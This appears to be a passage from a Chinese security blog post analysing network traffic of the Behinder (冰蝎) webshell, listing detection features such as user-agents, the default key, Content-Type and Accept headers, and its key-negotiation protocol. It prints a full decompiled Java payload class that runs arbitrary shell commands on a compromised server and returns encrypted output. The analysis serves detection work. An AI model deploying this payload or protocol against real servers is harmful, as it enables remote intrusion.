Mozilla/5.0 (Windows NT 6.1) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/13.0.782.41 Safari/535.1 QQBrowser/6.9.11079.201
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3; .NET4.0C; .NET4.0E) QQBrowser/6.9.11079.201
Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0)
```

如果发现了一个IP命中了上面多个UA头的话，基本上可以确定为冰蝎特征

### Accept头



### 解密后特征

在冰蝎3中，所有的密码均为rebeyond，IV值为空，拿到AES密文后可以解密，php可以直接解密出来，java的解密出来是class文件内容，可以通过cyberchef下载下来，然后放在idea反编译看到




执行命令时的代码

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.rerlx.jixn.qyagg;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.lang.reflect.Method;
import java.nio.charset.Charset;
import java.util.HashMap;
import java.util.Iterator;
import java.util.Map;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

public class Eywyndwuq {
    public static String cmd;
    public static String path;
    private static String status = "success";
    private Object Request;
    private Object Response;
    private Object Session;

    public Eywyndwuq() {
    }

    public boolean equals(Object obj) {
        HashMap result = new HashMap();
        boolean var13 = false;

        Object so;
        Method write;
        label77: {
            try {
                var13 = true;
                this.fillContext(obj);
                result.put("msg", this.RunCMD(cmd));
                result.put("status", status);
                var13 = false;
                break label77;
            } catch (Exception var17) {
                result.put("msg", var17.getMessage());
                result.put("status", "fail");
                var13 = false;
            } finally {
                if (var13) {
                    try {
                        Object so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
                        Method write = so.getClass().getMethod("write", byte[].class);
                        write.invoke(so, this.Encrypt(this.buildJson(result, true).getBytes("UTF-8")));
                        so.getClass().getMethod("flush").invoke(so);
                        so.getClass().getMethod("close").invoke(so);
                    } catch (Exception var14) {
                    }

                }
            }

            try {
                so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
                write = so.getClass().getMethod("write", byte[].class);
                write.invoke(so, this.Encrypt(this.buildJson(result, true).getBytes("UTF-8")));
                so.getClass().getMethod("flush").invoke(so);
                so.getClass().getMethod("close").invoke(so);
            } catch (Exception var15) {
            }

            return true;
        }

        try {
            so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
            write = so.getClass().getMethod("write", byte[].class);
            write.invoke(so, this.Encrypt(this.buildJson(result, true).getBytes("UTF-8")));
            so.getClass().getMethod("flush").invoke(so);
            so.getClass().getMethod("close").invoke(so);
        } catch (Exception var16) {
        }

        return true;
    }

    private String RunCMD(String cmd) throws Exception {
        Charset osCharset = Charset.forName(System.getProperty("sun.jnu.encoding"));
        String result = "";
        if (cmd != null && cmd.length() > 0) {
            Process p;
            if (System.getProperty("os.name").toLowerCase().indexOf("windows") >= 0) {
                p = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/c", cmd});
            } else {
                p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
            }

            BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream(), "GB2312"));

            String disr;
            for(disr = br.readLine(); disr != null; disr = br.readLine()) {
                result = result + disr + "\n";
            }

            br = new BufferedReader(new InputStreamReader(p.getErrorStream(), "GB2312"));

            for(disr = br.readLine(); disr != null; disr = br.readLine()) {
                status = "error";
                result = result + disr + "\n";
            }

            result = new String(result.getBytes(osCharset));
        }

        return result;
    }

    private byte[] Encrypt(byte[] bs) throws Exception {
        String key = this.Session.getClass().getMethod("getAttribute", String.class).invoke(this.Session, "u").toString();
        byte[] raw = key.getBytes("utf-8");
        SecretKeySpec skeySpec = new SecretKeySpec(raw, "AES");
        Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
        cipher.init(1, skeySpec);
        byte[] encrypted = cipher.doFinal(bs);
        return encrypted;
    }

    private String buildJson(Map<String, String> entity, boolean encode) throws Exception {
        StringBuilder sb = new StringBuilder();
        String version = System.getProperty("java.version");
        sb.append("{");
        Iterator var5 = entity.keySet().iterator();

        while(var5.hasNext()) {
            String key = (String)var5.next();
            sb.append("\"" + key + "\":\"");
            String value = ((String)entity.get(key)).toString();
            if (encode) {
                Class Base64;
                Object Encoder;
                if (version.compareTo("1.9") >= 0) {
                    this.getClass();
                    Base64 = Class.forName("java.util.Base64");
                    Encoder = Base64.getMethod("getEncoder", (Class[])null).invoke(Base64, (Object[])null);
                    value = (String)Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                } else {
                    this.getClass();
                    Base64 = Class.forName("sun.misc.BASE64Encoder");
                    Encoder = Base64.newInstance();
                    value = (String)Encoder.getClass().getMethod("encode", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                    value = value.replace("\n", "").replace("\r", "");
                }
            }

            sb.append(value);
            sb.append("\",");
        }

        if (sb.toString().endsWith(",")) {
            sb.setLength(sb.length() - 1);
        }

        sb.append("}");
        return sb.toString();
    }

    private void fillContext(Object obj) throws Exception {
        if (obj.getClass().getName().indexOf("PageContext") >= 0) {
            this.Request = obj.getClass().getMethod("getRequest").invoke(obj);
            this.Response = obj.getClass().getMethod("getResponse").invoke(obj);
            this.Session = obj.getClass().getMethod("getSession").invoke(obj);
        } else {
            Map<String, Object> objMap = (Map)obj;
            this.Session = objMap.get("session");
            this.Response = objMap.get("response");
            this.Request = objMap.get("request");
        }

        this.Response.getClass().getMethod("setCharacterEncoding", String.class).invoke(this.Response, "UTF-8");
    }
}
```

执行结果



jsp的执行时直接得到的AES密文

php则是CBC解密出来的`assert|eval()`




而php的命令执行结果也是AES的base64




再解base64

### JSP

#### Content-Type

冰蝎的代码中是写死了Content-Type的，都是application/octet-stream，这是一个强特征

我们来看一下application/octet-stream的解释：

```
只能提交二进制，而且只能提交一个二进制，如果提交文件的话，只能提交一个文件,后台接收参数只能有一个，而且只能是流（或者字节数组）；
属于HTTP规范中Content-Type的一种；
很少使用。
```

不反编译冰蝎的代码，很难做到修改，冰蝎的代码中是直接读取post中的内容，如果content-type不为这个，可能出现http非预期编码的情况，而我看php的传输流量的时候，还是用的是application/x-www-form-urlencoded

在一些文章中，把Content-Length也算作了一个弱特征，但是我觉得这个特征确实很少有用

## V4.0特征

**新增功能：**

1.新增支持多线程超大文件上传、下载；2.新增文件打包压缩；3.新增数据库连接配置可保存；4.取消硬编码通信协议，传输协议完全自定义，并支持即时在线校验测试。5.新增平行世界模块，可对目标内网资产进行管理；6.新增主机扫描、端口扫描、服务识别模块；7.新增支持Java9~java15+版本Agent内存马一键注入；8.新增支持Java Agent无文件落地注入内存马；9.新增多层网络子Shell穿透模块，实现多层”蝎中蝎”；10.新增离线模式，自动缓存数据，如shell丢失，可离线查看已缓存内容；11.开放插件开发模块，可开发自定义插件，内置多款插件；12.支持二进制服务端，服务端不再依赖web。

**工具通信原理**

冰蝎的通信过程可以分为两个阶段：密钥协商和加密传输

**第一阶段-密钥协商**

1.攻击者通过 GET 或者 POST 方法，形如 http://127.0.0.1/shell.aspx?pass=645的请求服务器密钥；

2.服务器使用随机数 MD5 的高16位作为密钥，存储到会话的 $_SESSION 变量中，并返回密钥给攻击者。

**第二阶段-加密传输**

- 客户端把待执行命令作为输入，利用 AES 算法或 XOR 运算进行加密，并发送至服务端；
- 服务端接受密文后进行 AES 或 XOR 运算解密，执行相应的命令；
- 执行结果通过AES加密后返回给攻击者。

冰蝎4.0传输协议不只是AES，而是提供了多种协议，生成特定的服务端，连接的时候也不需要密码，而是直接连接自己生成的服务端



### Accept头


**检测思路**

浏览器可接受任何文件，但最倾向application/json和 text/javascript

**规则**

file_data的作用和http_server_body差不多，都是使content匹配response body中的内容，唯一不同的是使用了file_data关键字的规则，其在file_data之后的content都会受到它的影响。file_data之后的content都必须在response body里匹配

无论是在冰蝎三还是冰蝎四，默认的密码都是rebeyond的md5的前16位，如果不进行变换的话，我们解密能够得到更多的特征

比如说：


冰蝎得到的status，正确的时候都是c3VjY2Vzcw==这个字符串，这也可以作为冰蝎的一个特征，而且还能解密得到代码的话，又可以作为冰蝎的一个特征

还有部分文章写到，冰蝎的长连接，但是我的Connection状态一直是close，而不是 Keep-Alive，以及开放的端口存在一个范围，作为一个弱特征

# 哥斯拉流量分析

# CS流量分析


参考链接：

https://www.freebuf.com/articles/web/264896.html

https://blog.csdn.net/UserNick157/article/details/124405353

https://www.freebuf.com/articles/247009.html